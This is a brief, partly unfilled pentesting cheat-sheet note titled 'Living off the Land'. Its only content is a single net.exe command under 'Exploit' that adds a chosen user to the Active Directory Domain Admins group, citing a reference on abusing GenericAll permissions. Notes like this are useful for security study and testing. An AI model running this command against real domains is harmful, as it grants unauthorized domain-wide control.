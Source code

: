 # Living off the Land

## 01 - Detect

> [!IMPORTANT] Conditions
> Write the conditions...

```

```

## 02 - Exploit

```
C:\> net.exe group "Domain Admins" <target_username> /add /domain
```

---
## References

- [Hacking Articles: Abusing AD-DACL - Generic ALL Permissions](https://www.hackingarticles.in/abusing-ad-dacl-generic-all-permissions/)